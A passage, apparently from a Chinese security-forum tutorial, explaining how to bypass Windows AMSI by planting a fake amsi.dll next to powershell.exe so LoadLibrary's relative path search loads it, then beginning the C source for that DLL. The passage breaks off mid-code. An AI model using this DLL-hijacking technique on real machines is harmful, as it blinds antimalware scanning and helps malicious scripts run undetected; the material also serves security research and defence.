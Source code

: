 ![image-20211016202005984](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a0313f6eda3dbf7b852efa9e89ef451d3913eaeb.png)

![image-20211016202040657](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ee1816a97fedf3d052b06f673e99c9bcd5def26e.png)

Unpload之后就卸载了

不建议使用

Bypass AMSI-5(重点关注)
-------------------

### 劫持amsi.dll

### 原理

由于研发人员使用 LoadLibrary函数导入dll的时候没有使用绝对路径，因此程序会首先在当前目录下寻找dll

因此我们在 powershell.exe同目录下放一个amsi.dll做劫持

`amsi.dll`的默认目录：`c:\windows\system32\amsi.dll`

还要考虑`amsi.dll`的导出函数，上面也有所提及

但是官方文档也是不全的，文档比较老了，目前新的amsi增加了其他几个导出函数

我这里使用了一个工具AheadLib

用IDA 分析 原理是一样的

![image-20211016204700088](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ea82856c337567216d54143fb5c2113d2de8ad39.png)

```php
#include "pch.h"
#include "iostream"

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        LPCWSTR appName = NULL;
        typedef struct HAMSICONTEXT {
            DWORD       Signature;            // "AMSI" or 0x49534D41
            PWCHAR      AppName;           // set by AmsiInitialize
            DWORD       Antimalware;       // set by AmsiInitialize
            DWORD       SessionCount;      // increased by AmsiOpenSession
        } HAMSICONTEXT;
        typedef enum AMSI_RESULT {
            AMSI_RESULT_CLEAN,
            AMSI_RESULT_NOT_DETECTED,
            AMSI_RESULT_BLOCKED_BY_ADMIN_START,
            AMSI_RESULT_BLOCKED_BY_ADMIN_END,
            AMSI_RESULT_DETECTED
        } AMSI_RESULT;

        typedef struct HAMSISESSION {
            DWORD test;
        } HAMSISESSION;

        typedef struct r {
            DWORD r;
        };

```